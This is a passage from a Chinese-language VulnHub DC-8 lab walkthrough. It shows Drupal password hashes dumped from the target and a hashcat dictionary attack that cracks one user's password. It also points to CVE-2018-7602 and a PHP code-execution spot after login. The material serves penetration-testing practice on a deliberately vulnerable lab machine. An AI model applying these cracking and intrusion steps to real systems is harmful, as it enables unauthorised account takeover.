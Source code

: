 ```
admin 	$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z
john 	$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF
```

用 hashcat 跑一下

```
echo "\$S\$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z" > pass.txt
echo "\$S\$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF" >> pass.txt
hashcat -m 7900 -a 0 pass.txt /usr/share/john/password.lst
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/7.png)

只跑出 john 的密码 turtle,那先用这个账号登录

回过头去测 CVE-2018-7602 也是一个方法,不过公开的 poc 利用于 Drupal 8,7当然也是受影响的,你可以尝试修改 poc

在爆破的时候顺带扫一下目录,发现有个登陆点 `http://192.168.141.141/user`

登陆后发现有一处直接执行 php 代码的地方

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC8/8.png)
